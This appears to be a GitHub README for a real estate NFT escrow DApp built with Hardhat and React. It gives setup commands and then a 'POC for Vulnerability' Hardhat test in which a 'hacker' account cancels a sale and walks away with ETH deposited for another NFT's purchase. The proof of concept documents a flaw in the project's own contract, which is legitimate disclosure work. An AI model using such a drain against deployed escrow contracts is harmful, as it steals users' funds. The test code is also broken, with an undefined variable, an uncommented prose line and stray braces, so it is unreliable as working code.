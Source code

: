 # Real Estate NFT DApp

## Technology Stack & Tools

- Solidity (Writing Smart Contracts & Tests)
- Javascript (React & Testing)
- [Hardhat](https://hardhat.org/) (Development Framework)
- [Ethers.js](https://docs.ethers.io/v5/) (Blockchain Interaction)
- [React.js](https://reactjs.org/) (Frontend Framework)

## Requirements For Initial Setup
- Install [NodeJS](https://nodejs.org/en/)

## Setting Up
### 1. Clone/Download the Repository

### 2. Install Dependencies:
`$ npm install`

### 3. Run tests
`$ npx hardhat test`

### 4. Start Hardhat node
`$ npx hardhat node`

### 5. Run deployment script
In a separate terminal execute:
`$ npx hardhat run ./scripts/deploy.js --network localhost`

### 7. Start frontend
`$ npm run start`

### POC for Vulnerability
## describe("ETH Mishandling in Cancel Sale", () => {
        describe("Failure", async () => {
            it("Check for deposit earnest", async () => {
                const nftId_1 = 1
                const nftId_2 = 2

                // Deposit for NFT 1
                const depositTx = await escrow.connect(buyer).depositEarnest(1, {
                     value: tokens(5)
                })
                await depositTx.wait()

                // Escrow balance before
                const escrowBalanceBefore = await escrow.getBalance()

                // Hacker balance before
                const hackerBalanceBefore = await hre.ethers.provider.getBalance(hacker.address)

                // Inspector passes inspection for NFT 1
                const inspectionTx1 = await escrow.connect(inspector).updateInspectionStatus(1, true)
                await inspectionTx1.wait()

                // Approve sale by buyer, seller and lender for NFT 1
                const approveTx1 = await escrow.connect(buyer).approveSale(1)
                await approveTx1.wait()

                const approveTx2 = await escrow.connect(seller).approveSale(1)
                await approveTx2.wait()

                const approveTx3 = await escrow.connect(lender).approveSale(1)
                await approveTx3.wait()

                // Lender send ETH to the contract for NFT 1
                const inspectionTx2 = await lender.sendTransaction({
                    to: escrow.address,
                    value: tokens(5)
                })

                 // Mint NFT 2
                 const mintTx2 = await realEstate.connect(seller).mint("https://ipfs.io/ipfs/QmTudSYeM7mz3PkYEWXWqPjomRPHogcMFSq7XAvsvsgAPS")
                 await mintTx2.wait()

                 // Approve NFT 2 for Escrow
                 const approveTx = await realEstate.connect(seller).approve(escrow.address, 2);
                 await approveTx.wait()

                 // List NFT 2
                 const listTransaction2 = await escrow.connect(seller).list(2, hacker.address, tokens(15), tokens(10))
                 await listTransaction2.wait()

                 // Hacker cancel sale for NFT 2
                 const cancelTx = await escrow.connect(hacker).cancelSale(2);
                 await cancelTx.wait()

                 // Check Escrow balance after cancel sale   
                expect(escrowBalanceAfter).to.equal(escrowBalanceBefore);

                 // Hacker balance after
                 const hackerBalanceAfter = await hre.ethers.provider.getBalance(hacker.address)
                 expect(hackerBalanceAfter).to.be.greaterThan(hackerBalanceBefore)

                 Finalize sale for NFT 1
                 await expect(escrow.connect(seller).finalizeSale(1))
            })
        })
    })
})

